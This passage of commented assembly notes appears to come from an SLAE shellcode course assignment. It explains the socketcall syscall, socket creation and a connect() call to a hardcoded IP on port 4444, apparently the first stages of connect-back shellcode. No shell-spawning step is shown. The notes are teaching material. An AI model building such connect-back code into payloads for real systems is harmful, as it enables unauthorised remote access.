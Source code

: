         		Registers are cleared before they are being used here.
        		
        		EAX contains syscall number 0x66 ie 102
        		toor@ubuntu:~/Desktop/slae/Assignments/1$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 102
			#define __NR_socketcall         102

			#int socketcall(int call, unsigned long *args);

			From http://man7.org/linux/man-pages/man2/socketcall.2.html, we have 
				   call              Man page
       				SYS_SOCKET        socket(2)
       				SYS_BIND          bind(2)
       				SYS_CONNECT       connect(2)
       				SYS_LISTEN        listen(2)
       				SYS_ACCEPT        accept(2)
       			
       			Since creation is what we are looking for EBX has the value 1

       			*args ie (socket())  ie int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);  values are pushed in the stack on reverse order

       			Refer : http://students.mimuw.edu.pl/SO/Linux/Kod/include/linux/socket.h.html
       			      : http://www.cs.cmu.edu/afs/cs.cmu.edu/academic/class/15440-f11/go/src/pkg/syscall/zerrors_darwin_386.go

       			IPPROTO_TCP                 = 0x6
       			#define SOCK_STREAM	1		/* stream (connection) socket	*/
       			#define AF_INET		2	/* Internet IP Protocol 	*/

       			ECX contains the address location to these arguments 




	>Define the socket with IP address and port to connect

			After a socket is created "sock" socket descriptor is binded with the ip address and port we make a connection to.
          		connect syscall is similar to bind. rather than the localhost we specify the ip and port we need to connect		
          		connect(sock, (struct sockaddr *)&addr, sizeof(addr));

			struct sockaddr_in addr;
			addr.sin_family = AF_INET;
			addr.sin_port = htons(4444); // Port
			addr.sin_addr.s_addr = inet_addr("192.168.230.169"); , ip to connect to


			Refer: http://man7.org/linux/man-pages/man2/connect.2.html
			#int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);

			sockfd : socket discriptor / pointer created from socket function call
			struct : pointer to the structure(user defined data type) containing following arguments
						
			addr.sin_family = AF_INET; 			,  IPv4 Internet protocols
			addr.sin_port = htons(4444);		, Port number to bind(here 4444) ; htons function is to convert  host-to-network short .
			Refer : https://stackoverflow.com/questions/19207745/htons-function-in-socket-programing
						